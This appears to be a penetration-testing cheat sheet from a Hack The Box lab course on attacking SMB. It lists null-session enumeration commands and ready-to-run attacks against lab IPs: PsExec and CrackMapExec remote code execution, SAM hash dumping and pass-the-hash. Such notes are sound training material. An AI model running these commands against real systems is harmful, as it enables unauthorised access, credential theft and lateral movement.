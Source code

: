 enum4Ports: 445

#### Generic commands

|**Command**|**Description**|
|---|---|
|`smbclient -N -L //<FQDN/IP>`|Null session authentication on SMB.|
|`smbclient //<FQDN/IP>/<share>`|Connect to a specific SMB share.|
|`rpcclient -U "" <FQDN/IP>`|Interaction with the target using RPC.|
|`samrdump.py <FQDN/IP>`|Username enumeration using Impacket scripts.|
|`smbmap -H <FQDN/IP>`|Enumerating SMB shares.|
|`crackmapexec smb <FQDN/IP> --shares -u '' -p ''`|Enumerating SMB shares using null session authentication.|
|`enum4linux-ng.py <FQDN/IP> -A`|SMB enumeration using enum4linux.|

```shell-session
smbclient -U david \\\\10.129.163.211\\david
```

#### Impacket PsExec (RCE)

```shell-session
Tachipy@htb[/htb]$ impacket-psexec administrator:'Password123!'@10.10.110.17
```

#### CrackMapExec (RCE)

```shell-session
Tachipy@htb[/htb]$ crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec
```

#### Enumerating Logged-on Users

```shell-session
Tachipy@htb[/htb]$ crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users
```

#### Extract Hashes from SAM Database

```shell-session
Tachipy@htb[/htb]$ crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam
```

#### Pass-the-Hash (PtH)

```shell-session
Tachipy@htb[/htb]$ crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE
```